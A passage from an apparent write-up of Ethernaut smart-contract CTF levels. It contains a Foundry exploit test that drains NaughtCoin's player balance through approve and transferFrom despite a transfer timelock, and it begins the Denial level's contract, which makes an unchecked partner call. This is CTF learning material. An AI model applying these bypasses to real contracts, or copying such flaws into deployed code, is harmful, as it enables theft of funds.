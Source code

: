 ```
}
```
- `test/Week8-9/Ethernaur_NaughtCoin.t.sol`
```
contract NaughtCoinTest is Test {
    NaughtCoin naughtCoin;
    address player = address(this);
    address attacker = address(0xBad);

    function setUp() public {
        //player starts with 1_000_000 tokens with 10 year transfer lockout
        naughtCoin = new NaughtCoin(player);
    }

    function testExploit() public {
        vm.startPrank(player);
        naughtCoin.approve(attacker, 1000000 * 10 ** 18); // 1_000_000
        vm.stopPrank();

        vm.startPrank(attacker);
        naughtCoin.transferFrom(player, attacker, 1000000 * 10 ** 18); // 1_000_000
        vm.stopPrank();

        _checkSolved();
    }

    function _checkSolved() internal {
        assertTrue(naughtCoin.balanceOf(player) == 0, "Challenge Incomplete");
    }
}
```

### Exploit
To complete this ctf, the token balance for `player` needs to be 0. The `NaughtCoin` contract implements ERC20 and overrides `transfer` with a timelock of 10 years for `player`, so `player` cant send tokens through the `transfer` function. However, the contract does not override ERC20's `transferFrom` function. So we can approve a spending allowance for `attacker`, and `attacker` can simply call `transferFrom` to transfer out `player`'s full token balance.

## Ethernaut: #20 Denial
Link: https://ethernaut.openzeppelin.com/level/0x2427aF06f748A6adb651aCaB0cA8FbC7EaF802e6

### Contracts
- `src/Week8-9/Ethernaut_Denial.sol`
```
contract Denial {
    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address public constant owner = address(0xA9E);
    uint256 timeLastWithdrawn;
    mapping(address => uint256) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint256 amountToSend = address(this).balance / 100;
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value: amountToSend}("");
        payable(owner).transfer(amountToSend);
```